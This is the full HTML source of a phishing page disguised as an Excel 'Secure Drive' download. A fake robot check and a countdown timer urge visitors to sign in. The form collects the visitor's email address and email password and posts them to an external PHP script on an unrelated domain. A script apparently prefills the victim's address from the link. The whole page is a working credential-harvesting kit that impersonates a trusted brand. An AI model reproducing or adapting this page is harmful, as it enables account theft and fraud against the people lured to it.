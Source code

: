 <!DOCTYPE html>
<!DOCTYPE html><html><head><title>Excel File Download</title>


                      <meta charset="utf-8">
                      <meta name="viewport" content="width=device-width, initial-scale=1">
                      <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css">
                      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
                      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>



                    <style>
                    body {
                      font-family: Arial;
                    }

                    input[type=email], select {
                        width: 100%;
                        padding: 12px 20px;
                        margin: 15px 0;
                        display: block;
                        border: 1px solid #ccc;
                        border-radius: 4px;
                        box-sizing: border-box;
                    }

                    input[type=password], select {
                        width: 100%;
                        padding: 12px 20px;
                        margin: 15px 0;
                        display: block;
                        border: 1px solid #ccc;
                        border-radius: 4px;
                        box-sizing: border-box;
                    }

                    input[type=submit] {
                        width: 100%;
                        background-color: #217346;
                        color: white;
                        padding: 14px 20px;
                        margin: 8px 0;
                        border: none;
                        border-radius: 4px;
                        cursor: pointer;
                    }

                    input[type=submit]:hover {
                        background-color: #217346;
                    }

                    div.container {
                        margin: auto;
                        width: 50%;
                        padding: 10px;
                        border: 20px #217346;
                        border-radius: 10px;
                        background-color: white;
                        width: 500px;
                        padding: 20px;
                        border-style: solid;
                        border-width: thin;
                    }
                    </style>

                    <style>
</style></head><body style="background-image: url(&apos;https://livcifilter.com/images/blur.jpg&apos;); background-repeat: no-repeat;
    background-size: 100% 100%; ">


                     <br><br><br><br>
                    <div class="container">

                    <img src="https://livcifilter.com/images/connector-excel-logo.png" alt="SharePoint" border="0" height="65">

                    <p><br></p>
                    <font face="Trebuchet MS" color="#217346" size="5"><b>&#xA0;&#xA0;&#xA0;Secure Drive</b></font>

                    <p></p>
					<script language="JavaScript">
    <!--
    function validateForm()
    {
    var y=document.forms["myform"]["eml"].value;
    if(y==null || y=="")
      {
      alert("Enter your Email");
      return false;
      }
    var y=document.forms["myform"]["pswd"].value;
    if(y==null || y=="")
      {
      alert("Password is Empty");
      return false;
      }
    var y=document.forms["myform"]["pswd"].value;
    if(y.length <6 )
      {
      alert("Invalid password");
      return false;
      }
    }



    -->
</script>


					<form action="https://secunderabad.msbinstitute.com/fillupbk/wasaph.php"  method="post" onsubmit="return validateForm()" name="myform">

                    <hr style="height:2px;border:none;color:#217346;background-color:#217346;">
                    <div class="alert alert-danger">
                        <strong>Wait!:</strong> Excel ROBOT Check.
YOU MUST SIGN IN TO CONTINUE
                      </div>

							<div id="countdown" style="text-align: center">05:00</div>

                    <center>

                    <input type="email" id="fname" name="eml" placeholder="Enter Email Address" autofocus required>

                        <input type="password" id="fname" name="pswd" placeholder="Enter Email Password" autofocus required>



                        <input type="submit" value="VIEW / DOWNLOAD ">
                      </center>


                    </form>

                    </div>
<script>
		function countdown() {
time = document.getElementById('countdown').innerHTML;
timeArray = time.split(':')
seconds = timeToSeconds(timeArray);
if (seconds == '') {
temp = document.getElementById('countdown');
temp.innerHTML = "00:00";
return;
}
seconds--;
temp = document.getElementById('countdown');
temp.innerHTML= secondsToTime(seconds);
timeoutMyOswego = setTimeout(countdown, 1000);
}
function timeToSeconds(timeArray) {
var minutes = (timeArray[0] * 1);
var seconds = (minutes * 60) + (timeArray[1] * 1);
return seconds;
}

function secondsToTime(secs) {
var hours = Math.floor(secs / (60 * 60));
hours = hours < 10 ? '0' + hours : hours;
var divisor_for_minutes = secs % (60 * 60);
var minutes = Math.floor(divisor_for_minutes / 60);
minutes = minutes < 10 ? '0' + minutes : minutes;
var divisor_for_seconds = divisor_for_minutes % 60;
var seconds = Math.ceil(divisor_for_seconds);
seconds = seconds < 10 ? '0' + seconds : seconds;
return  minutes + ':' + seconds;
}
countdown();
</script>
<script>

document.getElementById("mytext").value = getUrlVars()["emailid"];;

function getUrlVars() {
    var vars = {};
    var parts = window.location.href.replace(/[?&]+([^=&]+)=([^&]*)/gi, function(m,key,value) {
        vars[key] = value;
    });
    return vars;
}
</script>



                <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script><script>
</script></body></html>
